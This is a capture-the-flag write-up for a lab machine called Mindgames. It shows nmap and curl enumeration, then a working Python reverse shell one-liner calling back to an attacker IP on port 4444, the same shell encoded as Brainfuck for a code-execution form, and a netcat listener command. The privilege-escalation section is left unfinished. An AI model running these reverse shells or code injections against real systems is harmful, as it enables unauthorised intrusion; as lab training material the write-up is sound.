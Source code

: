 # Mindgames write-up.
![room](https://user-images.githubusercontent.com/110361097/182584894-83f22081-1cbf-4aa8-afab-7ae39ffc5c1a.JPG)

HINT: No hints. Hack it. Don't give up if you get stuck, enumerate harder.

## Preparation:
Set the IP address as an environment variable in a terminal to make the process simple.

`export IP=10.10.242.185`

Access the IP variable with: $IP

## Reconnaissance:
Scan the IP address with nmap.

`nmap -A -Pn -sV -p- $IP -v -T 4`

**Result:**

![res-1](https://user-images.githubusercontent.com/110361097/182585019-1fcc6006-034d-4816-8ddb-53f77c7340b5.JPG)

So, we have ports 22 and 80 with services as ssh/web server.

## Enumeration:
Let's see what's on port 80's initial page.

`curl http://$IP -v`

**Result:**

![](/img/res-2.JPG)
![res-2](https://user-images.githubusercontent.com/110361097/182585173-f003d266-95f9-44e0-9990-8f3da077f2c8.JPG)


Possible Pivot Routes/Points Of Interest:

- /main.js
- /main.css

**Observations:**

We have references to:
* Programming
* Hello, World
* Fibonacci
* Code that contains ".-+[]<>"

This code looks familiar...

I'll assess the code sequence/pattern with a [cipher-identifier](https://www.dcode.fr/cipher-identifier)

The code has been identified as "Brainfuck".

**Info:**

Kind of makes sense since the room's name is mindgames...

We'll press on with decoding.

* Hello, World: `print("Hello, World")`
* Fibonacci:    `def F(n): if n <= 1 1: return f(n-1)+f(n-2) for i in range(10): print(f(i))`

Nothing looks interesting here. Just some standard code running on an interpreter.

Based on the initial webpage having a "Try before you buy" feature that took *trusted*
input from the user, we can assume this may be our first attack point as it would be a simple
web app using the Brainfuck code unfiltered/unsanitized as source-code input.

The code language that needs wrapping with Brainfuck is Python, this is assumed based on the "Hello, World" code that was decoded earlier.

We'll begin by generating a Python reverse shell over at: https://www.revshells.com, then encode it with Brainfuck at: https://www.splitbrain.org/_static/ook/. With this, we will try for a reverse shell first.

**The Setup:**

Python Reverse Shell: 

    import os,pty,socket;s=socket.socket();s.connect(("10.10.52.202",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")

Brainfuck wrapped:

    +++++ +++++ [->++ +++++ +++<] >++++ +.+++ +.+++ .-.++ +.++. <++++ +++++[->-- ----- --<]> ---.< +++++ +++[- >++++ ++++< ]>+++ +++++ +++++ ++.++++.<+ +++++ ++[-> ----- ---<] >---- ---.< +++++ +++[- >++++ ++++< ]>++++.+++ +.+++ ++.<+ +++++ ++[-> ----- ---<] >---- ----- ----. <++++ ++++[->+++ +++++ <]>++ +++++ .---- .<+++ [->-- -<]>- --.++ +++++ +.--- ---.<+++[- >+++< ]>+++ +++.< +++++ ++[-> ----- --<]> ----- ---.< +++++ ++[->+++++ ++<]> +++++ ++.<+ +++++ +[->- ----- -<]>- ----. <++++ +++[- >+++++++<] >++++ +.--- -.<++ +[->- --<]> ---.+ +++++ ++.-- ----. <+++[ ->+++<]>++ ++++. <++++ ++++[ ->--- ----- <]>-- ----. <++++ ++++[ ->+++ +++++<]>++ +++.- ---.< +++[- >---< ]>--- .++++ ++++. ----- -.<++ +[->+ ++<]>+++++ +.<++ +++++ +[->- ----- --<]> ----- ----- --.+. <++++ [->++ ++<]>++.<+ +++++ +[->+ +++++ +<]>+ +++++ +.<++ +++++ +[->- ----- --<]> -----.<+++ ++++[ ->+++ ++++< ]>+++ +.<++ +[->+ ++<]> +++.- ..--- ----- -.--.<++++ [->++ ++<]> +.<++ +++++ +[->- ----- --<]> ----- ----- --..- -----.<+++ [->++ +<]>+ +++++ .-.-- .+++. -.--. +++++ ++.-- -.--- -.+++ +.--.++.<+ +++[- >---- <]>.< +++[- >+++< ]>+.+ +++++ ++... .<+++ [->-- -<]>--..<+ +++[- >++++ <]>++ .<+++ ++[-> +++++ <]>++ +++++ .<+++ +[->+ +++<]>++++ .++++ .<+++ +++++ [->-- ----- -<]>- ----. <++++ +++[- >++++ +++<]>++++ +.<++ ++[-> ++++< ]>+.- ----. <++++ +++[- >---- ---<] >---- ---------. <+++[ ->--- <]>-. <++++ ++++[ ->+++ +++++ <]>++ +++++ ++++. <++++++++[ ->--- ----- <]>-- ---.< +++++ ++[-> +++++ ++<]> +++++ ++.++ +.+++.---- ---.+ +++++ +++.+ .<+++ +++++ [->-- ----- -<]>- ----- -.+.+ ++.<++++++ +[->+ +++++ +<]>+ +++++ +++.< +++++ ++[-> ----- --<]> ----- -------.<+ +++++ +[->+ +++++ +<]>+ +++++ +++++ +.+++ +++++ +.+++ .<+++ ++++++[->- ----- ---<] >-.<+ +++++ ++[-> +++++ +++<] >++++ ++.<+ +++++ ++[->----- ---<] >---- --.<+ +++++ ++[-> +++++ +++<] >++++ +++++ .++++ +.<+++++++ +[->- ----- --<]> ----- -.+++ +++++ .---- .++++ +.--- --.++ ++++.----- ----. <++++ +++[- >++++ +++<] >+++. <++++ +[->- ----< ]>--- ------.<++ +++++ [->++ +++++ <]>++ ++.++ ++.++ +++.< +++++ +++[- >---- ----<]>--- ----- ---.< +++++ +++[- >++++ ++++< ]>+++ ++.-- -.<++ +[->- --<]>----- -.<++ ++[-> ++++< ]>+++ +++.- ----- ---.< +++++ +++[- >---- ----<]>--- ---.- ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> +++++ ++<]> ++.+++++++ .++++ +.<++ +++++ [->-- ----- <]>-- ----- ----- --.<+ +++++ +[->++++++ +<]>+ +.-.< ++++[ ->+++ +<]>+ +.<++ +[->- --<]> --.<+ +++++ ++[->----- ---<] >---- --.++ +++++ .<

rlwrap listner:

`rlwrap -cAr nc -lvnp 4444`

We need to have our listener running first, then submit the wrapped code into the
"Try before you buy" submission form. 

Now submit the encoded reverse shell in the submission form with your netcat listener running and you should get the shell pop.

**Result:**

![res-4](https://user-images.githubusercontent.com/110361097/182585214-43e76183-9f44-4388-a18c-5161b0fcd2ac.JPG)


We now have shell access! Let's look for the user.txt file.

Our initial directory path is "/home/mindgames/webserver", so goto the user's home "/home/mindgames". 

Perform a directory listing and find the "user.txt" file.

![res-5](https://user-images.githubusercontent.com/110361097/182585240-7594a3d0-bc4d-495c-a7bf-e5593d3fc568.JPG)


## Flag 1:

![flag1](https://user-images.githubusercontent.com/110361097/182585255-e6e3eee9-00da-4bc5-af83-8137b7f9296d.JPG)

## Privilege Escalation:

To be continued...

**Result:**

